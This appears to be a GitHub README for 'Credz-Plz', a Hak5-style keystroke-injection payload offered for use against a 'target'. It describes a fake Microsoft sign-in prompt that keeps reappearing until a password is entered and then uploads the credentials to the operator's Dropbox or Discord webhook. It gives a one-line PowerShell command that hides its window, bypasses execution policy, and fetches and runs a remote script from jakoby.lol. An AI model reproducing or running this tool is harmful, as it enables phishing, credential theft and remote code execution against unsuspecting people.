 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Credz-Plz

A script used to prompt the target to enter their creds to later be exfiltrated with either Dropbox or a Discord webhook.

## Description

A pop up box will let the target know "Unusual sign-in. Please authenticate your Microsoft Account".
This will be followed by a fake authentication ui prompt. 
If the target tried to "X" out, hit "CANCEL" or while the password box is empty hit "OK" the prompt will continuously re pop up.
Once the target enters their credentials their information will be uploaded to your Dropbox or Discord webhook for collection.


## Getting Started

### Dependencies

* DropBox or other file sharing service - Your Shared link for the intended file
* Windows 10,11


### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* You no longer need to host your own version of this script 
* `$db` is the variable that holds your DropBox token
* `$dc` is the variable that holds your Discord webhook 
* Fill in either variable or both to set your exfil method

```
powershell -w h -ep bypass $dc='';$db='';irm https://jakoby.lol/35k | iex
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing


## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact


<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>

